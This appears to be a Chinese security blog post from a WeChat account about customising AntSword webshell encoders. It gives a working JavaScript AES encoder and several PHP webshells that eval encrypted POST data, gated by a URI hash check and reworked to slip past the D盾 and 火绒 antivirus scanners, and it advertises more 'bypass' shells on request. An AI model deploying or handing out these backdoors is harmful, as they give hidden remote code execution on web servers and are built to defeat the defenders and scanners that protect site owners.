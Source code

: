 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/y8rS3Av4p73zkTxFai18Mw)

  

蚁剑的编码器与解码器

蚁剑最出色的地方莫过于开源，方便二次开发。在日常渗透中 webshell 的流量加密算是一个基本操作了，否则太容易被查杀到了。而蚁剑的编码器和解码器就对流量进行了混淆，但是自带的 base64、chr16、rot 等太容易被查杀了，所以需要自己定义编码与解码器。

简单看一个 aes 的加密脚本

```
function get_cookie(Name, CookieStr="") {
   var search = Name + "="
   var returnvalue = "";
   if (CookieStr.length > 0) {
     var sd = CookieStr.indexOf(search);
     if (sd!= -1) {
        sd += search.length;
        var end = CookieStr.indexOf(";", sd);
        if (end == -1){
          end = CookieStr.length;
        }
        returnvalue = window.unescape(CookieStr.substring(sd, end));
      }
   } 
   return returnvalue;
}

function encryptText(keyStr, text) {
  let buff = Buffer.alloc(16, 'a');
  buff.write(keyStr,0);
  keyStr = buff.toString();
  let encodetext = CryptoJS.AES.encrypt(text, CryptoJS.enc.Utf8.parse(keyStr), {
    mode: CryptoJS.mode.ECB,
    padding: CryptoJS.pad.ZeroPadding,
  }).toString();
  return encodetext;
}

module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 从扩展中获取 shell 配置
  let headers = ext.opts.httpConf.headers;
  if(!headers.hasOwnProperty('Cookie')) {
    window.toastr.error("请先设置 Cookie (大小写敏感), 可通过浏览网站获取Cookie", "错误");
    return data;
  }
  let session_key = "PHPSESSID";
  let keyStr = get_cookie(session_key, headers['Cookie']);
  if(keyStr.length === 0) {
    window.toastr.error("未在 Cookie 中发现PHPSESSID", "错误");
    return data;
  }
  data[pwd] = encryptText(keyStr, data['_']);
  // ##########    请在上方编写你自己的代码   ###################
  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```

```
<?php
@session_start();
$pwd='ant';
$key=@substr(str_pad(session_id(),16,'a'),0,16);
@eval(openssl_decrypt(base64_decode($_POST[$pwd]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING));
?>
```

模块的定制化开发写了一个加密函数和一个获取 cookie 的函数，通过获取 cookie 来截取 aes 加密所需的 key 值，我们也可以自定义 http 请求头，来 diy 自己的编码器

  

动态免杀

动态免杀也就是流量加密，为了防止被流量分析设备检测，使用对称加密方式或非对称加密是最好的手段，同时返回包也应要加密返回。  

```
<?php
$requestUri = $_SERVER['REQUEST_URI'];
@session_start();
$key=@substr(str_pad(session_id(),16,'a'),0,16);
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){eval(openssl_decrypt(base64_decode($_POST['tan']), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
?>
```

上传这个 php 马，连接时勾选 aes 加密

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicTFCoeQvT0uOrdBgd8jTCicFhMsUV9BeeMolJ1GxHxSsaS0KSpOia4vzc7O1sayJnBca02A3p6CmibXQ/640?wx_fmt=png)

在请求信息中设置 cookie  

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicTFCoeQvT0uOrdBgd8jTCicFJdJ8liaO5G0EPKQXXF5WKG3rROSneCUHg25kpmV6VVBYT6BNr5qx13Q/640?wx_fmt=png)

这样操作之后，请求包和返回包就加密了。

  

小小改动

若是在 awd 比赛中，不希望别人连接自己的 shell，所以还需要对 shell 稍作修改，混淆视听  

```
<?php
class mm
{
  public $a = '';
  function __destruct(){
    eval("$this->a");
  }
}
$requestUri = $_SERVER['REQUEST_URI'];
@session_start();
$key=@substr(str_pad(session_id(),16,'a'),0,16);
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){
$b = new mm;
$b->a = openssl_decrypt(isset($_GET['id'])?$_POST['tan']:base64_decode($_POST['tan']), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
?>
```

```
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){
$b = new mm;
$c = "_PO"."ST";
$b->a = openssl_decrypt(base64_decode(${$c}[tan]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
```

加完以后在就会获取当前请求 url，并截取后面 10 位跟 hash 做比对，不对的话就无法使用这个 shell 后门了，效果如下。

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicTFCoeQvT0uOrdBgd8jTCicFSu5VfNpqaIibvxb4jYviaXA9iaOU8YeJyRcyozL08A8HY4X6uFfF71Nvw/640?wx_fmt=png)

连接时定义好 url 和密码就行

  

静态免杀

自从 php7.1 以后，那些花里胡哨的变形就没得了，只能直面 eval。简单对自己的马子做了下静态免杀

过 D 盾也是摸索着过的，参考网上文章也有些不太靠谱，在 base64_decode 和 $_post 处卡了很长时间，后来借鉴别人的免杀马，直接绕过检测。看其思路并不是绕过字符串检测而是改变其调用过程从而达到的绕过

```
<?php
class mm
{
  public $a = '';
  function __destruct(){
    eval("$this->a");
  }
}
$requestUri = $_SERVER['REQUEST_URI'];
@session_start();
$key=@substr(str_pad(session_id(),16,'a'),0,16);
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){
$b = new mm;
$b->a = openssl_decrypt(isset($_GET['id'])?$_POST['tan']:base64_decode($_POST['tan']), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
?>
```

但是呢，这个时候发现火绒依然可以查杀

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicTFCoeQvT0uOrdBgd8jTCicF2gAwZBHDoiaCc99m0XWmdFCWqJmviahq2Dcu61dNnG6QbEKZibAwlBdGA/640?wx_fmt=png)

不过，稍作修改下也能过火绒

```
if(md5(substr($requestUri, -10))=="25e107b26e53900575dddf0339a83ca6"){
$b = new mm;
$c = "_PO"."ST";
$b->a = openssl_decrypt(base64_decode(${$c}[tan]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);}
```

但是 D 盾却又有告警了，哈哈哈哈。。

![](https://mmbiz.qpic.cn/mmbiz_png/olwnDibj8yicTFCoeQvT0uOrdBgd8jTCicFYOB7eA0pCHWZ3icjaHOflibxiajPEZ5MWsGumQhkZWpDz2ic1aFGLZ4yrQ/640?wx_fmt=png)

想要通杀，思路很简单，hex 转换就可以绕过

**公众号回复：****免杀马** **获取**

  

****【往期推荐】****  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - Shellcode Loader 原理 (python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - 分离 + 混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)